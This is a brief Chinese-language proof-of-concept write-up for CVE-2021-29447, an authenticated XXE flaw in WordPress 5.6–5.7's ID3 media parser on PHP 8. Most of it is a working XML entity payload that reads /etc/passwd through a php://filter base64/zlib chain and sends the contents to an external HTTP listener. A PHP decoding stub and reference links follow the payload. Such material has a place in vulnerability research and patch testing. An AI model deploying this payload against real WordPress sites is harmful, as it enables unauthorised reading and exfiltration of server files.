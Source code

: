 # WordPress 5.6-5.7-经过身份验证的XXE（CVE-2021-29447）

能够上传文件的用户（例如Author）可以利用媒体库中的XML解析问题来导致XXE攻击。WordPress使用了一个名为ID3的MP3解析库，该库受到XML外部实体（XXE）漏洞的影响，该漏洞会影响PHP 8及更高版本。

PoC：


```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://host.docker.internal:8001/?p=%file;'>" >
```

decryption.php：


```php
<?php

echo zlib_decode(base64_decode(''));

```

参考：https://github.com/motikan2010/CVE-2021-29447

ref：

* https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5
* https://core.trac.wordpress.org/changeset/29378
